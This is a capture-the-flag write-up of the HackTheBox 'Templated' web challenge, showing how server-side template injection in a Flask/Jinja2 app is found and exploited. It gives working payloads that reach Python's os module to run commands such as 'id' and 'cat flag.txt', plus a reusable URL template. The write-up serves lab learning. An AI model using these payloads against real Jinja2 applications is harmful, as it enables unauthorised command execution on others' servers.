 ```yaml
---
title: Templated [WEB][EASY] Writeup
author: Arijit Bhowmick [sys41x4]
date: 2021-03-21 18:32:00 -0500
categories: ["CTF Platform", HackTheBox]
tags: [HackTheBox, Easy, templated, Web, Challenge, writeup, python3, python]
permalink: "/HTB/challenge/web/Templated.html"
---
```


[![HTB Img](/assets/htb/htb-img/htb_logo.jpeg)](http://hackthebox.eu)

### Challenge Description

![Challenge Details](/assets/htb/challenge/web/templated/img/challenge_desc.png)

```
Can you exploit this simple mistake?
```

## SOLUTION

Click on the `Start Instance` button to start the challenge.

Then you are provided with an `web address` in the form of `<ip>:<port>`. Copy it and open it in another tab or browser.<br>
In my case it was `http://46.101.92.17:31311`

### Homepage of the Webapp :

![homepage](/assets/htb/challenge/web/templated/img/homepage.png)


The webapp shows a message <br>
`Site still under construction`<br>
`Proudly powered by Flask/Jinja2`<br>

Here we can see that it says that it is made with `Flask/Jinja2`.

### Searching exploits for `Flask/Jinja2`:

I have started searching exploits for `Flask/Jinja2`.
Then I came across <br>
1. <a href='https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee' target='_blank'>ssti in flask jinja2</a><br>
2. <a href='https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2' target='_blank'>Server Side Template Injection with jinja2</a>

Here it says about the SSTI exploit.

### Test Exploit :

After modifying the provided url to {% raw %}`http://46.101.92.17:31311/{{41+41}}`{% endraw %}

I have noticed that the returned result evaluates the value.

![test_exploit](/assets/htb/challenge/web/templated/img/test_exploit_1.png)

Then I came across:
![exploit_info_gather](/assets/htb/challenge/web/templated/img/exploit_info_gather.png)

### Creating the exploit:

I have manipulated <br>
{% raw %}
`{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`
{% endraw %}<br>
step by step.


![root_id_info](/assets/htb/challenge/web/templated/img/root_id_info.png)

![root_directory_content](/assets/htb/challenge/web/templated/img/root_directory_content.png)

#### EXPLOIT Code:

{% raw %}
```
http://46.101.92.17:31311/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt')).read()}}
```
{% endraw %}

Format:

{% raw %}
```
http://<Web app address>/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt')).read()}}
```
{% endraw %}

This is how I got the flag.

Just replace `<Web app address>` with the web address that you are provided.<br>
In my case it was `http://46.101.92.17:31311`

![exploit](/assets/htb/challenge/web/templated/img/exploit.png)

---

This is how, I solved this challenge.

Thankyou, for reading my writeup :)<br>
Hope, I would see you in my next writeup.

<a href="/support/sys41x4">Support Me</a> if you want to.
